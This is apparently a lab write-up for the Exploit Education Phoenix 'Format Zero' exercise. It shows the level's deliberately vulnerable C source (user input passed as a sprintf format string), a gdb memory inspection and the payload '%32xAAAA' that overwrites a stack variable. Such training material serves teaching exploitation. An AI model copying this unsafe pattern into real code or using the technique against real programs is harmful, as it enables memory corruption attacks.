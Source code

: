 ```yaml
---
title: " Exploit Education | Phoenix | Format Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

To learn about format string vulnerability see the references at the end.

This code uses **sprintf** function to write the formatted string **buffer** to **dest**.

The bug here is that if we entered a format string like **%d** without additional arguments (a number in this case) we could leak some values of the stack.

For example:

```c
int main() {
	printf("%x.%x.%x");
}
# output: d0a8b868 d0a8b878 3c43b1b0
```

As you can see we were able to leak some stack addresses.

Back to our level we must overflow **dest** to overwrite **changeme** but the buffer is too small for that so we can use the format string trick to solve this.

As you saw that one **%x** prints 8 characters so we can enter: (4 %x + value of **changeme**).

We can also just enter one %x with padding of 32 bytes like this: (%32x + value of **changeme**).

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/format-zero 
Reading symbols from /opt/phoenix/amd64/format-zero...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+99>:	mov    eax,0x0
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
.....

gef➤  b *0x000000000040070a
Breakpoint 1 at 0x40070a

gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAAAAAA

gef➤  x/5xg $rbp-0x30
0x7fffffffe620:	0x2020202020202020	0x2020202020202020
0x7fffffffe630:	0x2020202020202020	0x3031366566666666
0x7fffffffe640:	0x0000000a41414141
```

# Solution:

```
$ echo "%32xAAAA" | /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!  
```

#### References:

[http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)